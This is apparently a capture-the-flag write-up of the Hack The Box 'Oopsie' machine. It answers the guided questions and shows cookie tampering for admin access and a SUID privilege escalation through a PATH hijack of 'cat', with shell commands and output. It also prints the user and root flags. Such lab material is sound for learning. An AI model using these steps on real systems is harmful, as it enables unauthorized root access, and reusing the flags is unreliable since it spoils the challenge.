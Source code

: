 # Write Up for Hack The Box box - [Oopsie](https://app.hackthebox.com/starting-point?tier=2)

Part of Starting Point Path. Guided Box

> Pratyush Prakhar (5#1NC#4N) - 02/01/2024


### TASKS

1. With what kind of tool can intercept web traffic? - **proxy**
\
![](images/web.png)

2. What is the path to the directory on the webserver that returns a login page? - **/cdn-cgi/login**
\
![](images/login.png)

3. What can be modified in Firefox to get access to the upload page? - **cookie** - [cookie file](web/adm/cookie.txt), [pins](web/adm/pins.txt)

4. What is the access ID of the admin user? - **34322** --> [cookie FUZZ file](web/adm/admin_cookie.json)

5. On uploading a file, what directory does that file appear in on the server? - **/uploads**
\
![](images/uploads.png)

6. What is the file that contains the password that is shared with the robert user?- **db.php** --> [CGI dir](web/cgi)

7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? - **find** 

8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? - **root**

9. What SUID stands for? - **Set owner User ID** --> [scan file](ssh/linpeas.out)

```bash
root@oopsie:/root# find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
root@oopsie:/root# ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

10. What is the name of the executable being called in an insecure manner?

```bash
root@oopsie:/root# /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 4
---------------

cat: /root/reports/4: No such file or directory

robert@oopsie:/tmp$ echo '/bin/bash' > /tmp/cat 
robert@oopsie:/tmp$ chmod +x /tmp/cat 
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 5
---------------

root@oopsie:/tmp# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

11. Submit user flag - **f2c74ee8db7983851ab2a96a44eb7981**

```bash
root@oopsie:~# cat user.txt 
f2c74ee8db7983851ab2a96a44eb7981
```

12. Submit root flag - **af13b0bee69f8a877c3faf667f7beacf** 

```bash
root@oopsie:~# cd /root/
root@oopsie:/root# cat root.txt 
af13b0bee69f8a877c3faf667f7beacf
```